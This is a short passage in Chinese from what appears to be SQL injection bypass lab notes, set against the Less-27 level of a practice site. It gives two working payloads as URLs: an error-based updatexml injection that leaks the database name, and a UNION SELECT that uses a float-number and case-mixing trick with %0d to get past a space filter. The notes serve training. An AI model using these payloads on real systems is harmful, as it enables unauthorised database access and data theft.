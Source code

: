 上面这个案例看起来有浮点数，其实和浮点数没关系，改成任何字符串都没问题

```
http://d16.s.iproute.cn/Less-27/?id=a'and(updatexml(1,concat(0x7e,database(),0x7e),1))||'1
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675395062388-d09af3b2-f8a6-4a0a-96cc-a21654f7fe8e.png)

浮点数绕过主要需要与union配合使用，在过滤空格的场景中可以让union前面的空格省略

```sql
http://d16.s.iproute.cn/Less-27/?id=99.0'unIOn%0dseLEct(1),(database()),(3)%0d||'1
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675395656338-f542fa45-0e0b-4559-bde1-49d10dfdafca.png)
